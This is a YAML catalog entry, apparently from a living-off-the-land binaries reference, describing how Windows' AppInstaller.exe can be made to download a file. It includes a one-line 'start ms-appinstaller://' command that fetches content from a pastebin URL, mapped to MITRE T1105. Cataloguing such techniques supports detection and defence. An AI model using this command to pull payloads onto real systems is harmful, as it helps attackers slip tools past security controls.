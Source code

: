 ```yaml
---
Name: AppInstaller.exe
Description: Tool used for installation of AppX/MSIX applications on Windows 10
Author: "Wade Hickey"
Created: "2020-12-02"
Commands:
  - Command: start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw
    Description: AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\<RANDOM-8-CHAR-DIRECTORY>
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_1.11.2521.0_x64__8wekyb3d8bbwe\AppInstaller.exe
Resources:
  - Link: https://twitter.com/notwhickey/status/1333900137232523264
Acknowledgement:
  - Person: Wade Hickey
    Handle: "@notwhickey"
---
```

